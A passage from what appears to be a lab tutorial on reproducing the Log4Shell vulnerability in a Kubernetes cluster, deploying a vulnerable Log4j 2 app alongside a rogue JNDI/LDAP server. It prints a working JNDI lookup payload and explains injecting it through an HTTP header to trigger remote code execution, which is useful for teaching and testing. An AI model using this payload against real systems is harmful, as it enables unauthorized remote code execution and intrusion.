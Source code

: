 [https://github.com/vicenteherrera/log4shell-kubernetes](https://github.com/vicenteherrera/log4shell-kubernetes){:target="_blank"}

You can test this yourself using your preferred Kubernetes service on the cloud, online using a free [Okteto](https://github.com/vicenteherrera/log4shell-kubernetes#try-everything-using-okteto){:target="_blank"} account, or locally (using Minikube, Kind, etc). Even if you are not very interested in using Kubernetes to test this, this procedure is very simple to run.

As an example, let's start [Minikube](https://minikube.sigs.k8s.io/docs/start/){:target="_blank"} to use as target cluster:

```bash
minikube start
```

To deploy the vulnerable Log4j&nbsp;2 application, and the malicious LDAP server, you don't even have to clone or download the repository or build container images, just execute the following in your test cluster.

```bash
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/vulnerable-log4j.yaml
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/rogue-jndi.yaml
```

This will deploy for Kubernetes objects:
 * `vulnerable-log4j` service, that exposes `vulnerable-log4j-app` deployment, that deploys a pod running `quay.io/vicenteherrera/log4shell-vulnerable-app` container image.
 * `rogue-jndi` service, that exposes `rogue-jndi-app` deployment, that deploys a pod running `quay.io/vicenteherrera/rogue-jndi` container image.

Everything will be deployed to the current namespace, and as we are not attaching any ingress or load balancer. A more realistic scenario would be to deploy only the vulnerable application on the cluster, expose it to the internet, and deploy a different server for the rogue JNDI server and starter attack. But this way the workloads will not be exposed to the global Internet, and the execution of the attack will not be any different.

You can check the logs of each service to monitor what's happening with them:

```bash
# run on different terminals
kubectl logs service/rogue-jndi -f
kubectl logs service/vulnerable-log4j -f
```

Looking at the rogue-jndi service log, we see it tells us that to execute the remote code in Tomcat, we should use the string `${jndi:ldap://rogue-jndi:1389/o=tomcat}`. 

To have Log4j 2 log that string, you can use a disposable pod to run on the same cluster. From it you can send a CURL request to the vulnerable service with a `X-Api-Version` parameter of the header of the call that includes the string. The vulnerable application will try to store it in its log, and the remote code execution will be triggered.

To do this, we again deploy to the same namespace a pod with CURL and shell access. This way we are triggering the attack without having to expose everything to all Internet as explained before, and the only difference would be the URL to use for a realistic attack would be the one for the public IP address of the service.
